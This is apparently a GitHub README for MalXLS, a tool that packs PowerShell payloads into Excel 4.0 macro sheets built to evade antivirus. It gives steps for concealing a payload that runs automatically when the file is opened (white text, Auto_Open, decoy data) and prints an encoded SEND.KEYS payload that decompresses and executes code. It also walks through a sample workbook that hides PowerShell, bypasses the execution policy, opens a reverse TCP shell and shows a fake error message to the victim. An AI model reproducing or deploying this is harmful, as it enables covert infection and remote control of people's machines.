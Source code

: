 # Disclaimer

MalXLS is provided "as is", without warranty of any kind. The author of the project takes no responsibility for the abuse of anything provided and presented in the repository. Illegal usage of MalXLS is strictly prohibited.

# MalXLS

MalXLS is a quick way to encode undetected PowerShell payloads for Excel 4.0 Macro sheets.

Note that antivirus software may block the execution of certain PowerShell scripts even if the payload itself is undetected. It is the user's responsibility to work around the antivirus or disable it through other means.

### Why use the XLS format instead of XLSM? Why use Excel 4.0 Macros instead of VBA?

Read this blog post: https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

The important part starts at the ``Support for XLM`` section.

It is also not immediately obvious that the file contains a macro if it is saved under ``XLS`` instead of ``XLSM`` until the warning is displayed when opening the file.

## Getting Started

- Create a new Excel workbook and save it under the XLS format, then insert a new MS Excel 4.0 Macro sheet.
- (Optional) Delete the default sheet and rename the macro sheet to something less obvious
- Insert your payload into the macro sheet (preferrably in a random cell), then rename the first cell of the payload to ``Auto_Open`` to run the payload automatically when opening the file
  - For an example, see the provided ``Book1.xls`` file. It does not contain a cell named ``Auto_Open``
  - See [Usage](#usage) for instructions on generating a payload
- (Optional) Change the text color to ``WHITE`` and make sure the cells are the same size as regular cells
- Activate cell ``A1`` so that it is not immediately obvious where the payload is when opening the file
- (Optional) Insert some faux data at the beginning of the sheet

### Prerequisites

[.NET Framework 4.8](https://dotnet.microsoft.com/download/dotnet-framework/net48) is required to run the binary that computes payloads.

If you are using Windows 10 with the May 2019 Update (1903) you are good to go, otherwise you need to install it.

### Usage

The payload generator can be downloaded from the [Releases](https://github.com/davidcristian/MalXLS/releases) page. The source code is available in the ``Generate Payload`` directory.

```
Usage: computepayload [OPTION]... [FILE]... [-C]
  -e    Compress a file using GZip and encode it into a base64 string
  -f    Fix the bad characters in a file (use on one-liners)
  -c    Copy the generated commands into the clipboard
```
Example:

```
.\ComputePayload.exe -e .\clear_history.ps1 -c 
=SEND.KEYS("$b=""H4sIAAAAAAAEAJWQQWsCMRCF7wv{+}h0Es7h42h14KggeRWkvVLkbwID2k7sgGshnZjMoi/vcm7hZb8NDeMpm8L{+}{+}9XqGOmMklqtxoizCEuGcPxkDqh/gFOZ1TfjAI6fMIpDZo2dRjsqztAeEmTJJO1In0zst/ExM4dyKAsUFVpVNyHKbwboWO00xx0XxzU7zvWZNNxFQ7pqqWAeefeRAELcASSzpi{+}spYNraY9n{+}EtIQm4hAW"; TRUE)
=SEND.KEYS("eGoxq3qPMNEh6D88BdrlR7xmGy42c72tyNGORUYnrGSBxohM{+}uocGQzcmed{+}DAZXaauMfYsXQOPwXmvfrjeydt60WOLO4DYYEyPnsPw0tefNSOVrzUWmKtbKLFSJcbdVrLXN6eTEhKrSdZOr0XsrIdHmb1g7zwvHtdIc9x/Okyd4vPSTO4l9C1/sVYH1SwIAAA=="";nal no New-Object -F;iex {(}no IO.StreamReader{(}no "; TRUE)
=SEND.KEYS("IO.Compression.GZipStream{(}{(}no IO.MemoryStream -A @{(},{[}Convert{]}::FromBase64String{(}$b{)}{)}{)},{[}IO.Compression.CompressionMode{]}::Decompress{)}{)}{)}.ReadToEnd{(}{)}~{NUMLOCK}"; TRUE)
```

#

``Book1.xls`` breakdown:

![](breakdown.png)

1.  Disable all warnings and errors so that the macro never breaks
2.  Open PowerShell in a minimized state (keystrokes still go through)
3.  Wait 1 second
4.  Hide the PowerShell window
5.  Continuation of 4.
6.  Wait 1 second
7.  Open a 32bit PowerShell session if the current one is 64bit
8.  Wait 1 second
9.  Set the execution policy to bypass for the current session so that any script may run
10. Wait 1 second
11. Start a reverse TCP connection to 192.168.144.134 on port 4242 (Note that this is blocked by Windows Defender)
12. Continuation of 11.
13. Continuation of 11.
14. Wait 1 second
15. Activate the Excel window
16. Display a faux error message about there being an error when opening the file
17. Close Excel (no warnings will be shown due to 1.)

## Known Issues

- Sending large commands requires multiple wait instructions (usually every 3 cells). The cause for this is unknown because the ``TRUE`` switch for ``SEND.KEYS`` should wait for the keystrokes to be processed before going to the next instruction, which is not always the case and results in mixed keystrokes and a broken payload.

## License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details

Files belonging to other authors have their license in the same directory as them.

## Acknowledgments

* PowerShell decoding, decompression, execution, hide_window.ps1, and assure_32bit.ps1 snippets from MaMe82's [helper.js](https://github.com/RoganDawes/P4wnP1_aloa/blob/master/dist/HIDScripts/helper.js) file for [P4wnP1 A.L.O.A.
](https://github.com/RoganDawes/P4wnP1_aloa)
* PowerShell clear_history.ps1 script from [here](https://stackoverflow.com/a/38807689)
* PowerShell reverse_shell.ps1 script from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) (second one)
* [This](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf) excellent book
